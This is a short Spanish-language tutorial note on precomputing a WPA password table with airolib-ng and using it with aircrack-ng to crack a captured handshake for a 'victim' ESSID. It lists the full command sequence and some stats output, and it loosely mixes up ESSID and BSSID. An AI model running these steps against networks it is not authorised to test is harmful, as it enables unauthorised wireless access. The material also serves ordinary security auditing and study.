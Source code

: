 # Rainbow tables
Las [[Rainbow table]] son diccionarios decontraseñas con la diferencia que estan contienen la contraseña y el valor hash que representa, con el fin de que el proceso de el ataque de fuerza bruta sea mucho mas eficaz.

Con ayuda de la herramienta de airolib-ng de la familia de aircrack podemos construir una rainbow table.

	airolib-ng diccPre --import passwd dicc.txt
Creamos la tabla proporcionando el nombre que tendra esta e importando el diccionario en texto plano con el parametro *passwd*.

	echo "ESSID_victima" > essid.lst
Creamos un archivo con el bssid del AC que deseamos atacar.
-.essid.lst [[Rainbow Tables#Archivo lst]]

	airolib-ng diccPre --import essid essid.lst
Importamos el essid al igual que las passwords

	airolib-ng diccPre --stats
Para saber si todo si importo correctamente, podemos observar las passwords y el essid asociado.
``` bash
There are 1 ESSIDs and 1 passwords in the database. 0 out of 1 possible combinations have been computed (0%).

ESSID	Priority	Done
BSSID_victima	64	0.0
```

	airolib-ng diccPre --clean all
Limpia la basura de la db.

	airolib-ng diccPre --batch
Comiensa a procesar las contrseñas para tener ya el diccionario preposesado 

	aircrack-ng -r diccPre CapturaDeAuth-01.cap
Realizamos el ataque de fuerza bruta con aircrack
-r *Indicamos que el diccionario es una db por lo tanto lo toma como una rainbow table*













### Notas
#### Archivo .lst
La extensión de archivo LST se utiliza para un archivo de lista de datos y se refiere a varios tipos de información que es utilizada por múltiples tipos de programas. Listas como estos pueden ser transferidos a cualquier programa de base de datos o aplicación de hoja de cálculo.